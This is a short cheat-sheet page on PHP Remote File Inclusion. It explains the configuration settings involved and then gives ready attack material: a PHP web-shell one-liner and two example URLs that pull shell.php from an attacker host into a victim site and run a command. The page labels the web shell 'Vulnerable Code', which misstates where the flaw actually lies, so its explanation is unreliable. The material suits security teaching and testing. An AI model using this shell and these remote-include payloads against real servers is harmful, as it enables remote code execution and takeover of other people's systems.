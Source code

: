 # Remote File Inclusion \(RFI\)

## Remote File Inclusion

Remote File Inclusion or RFI occurs when a website allows the inclusion of remotely hosted files. The impact of this vulnerability can be low or high, depending on the server's configuration.

In PHP he `allow_url_fopen` setting \(enabled by default\) and `allow_url_include` setting have to be turned on. 

### Vulnerable Code

PHP vulnerable code:

```php
<?php system($_GET['cmd']); ?>
```

We can include a remote file from our server:

```text
http://victim.vmx/index.php?param=ftp://user:pass@attacker_host/shell.php&cmd=id
http://victim.vmx/index.php?param=http://attacker_host/shell.php&cmd=id
```

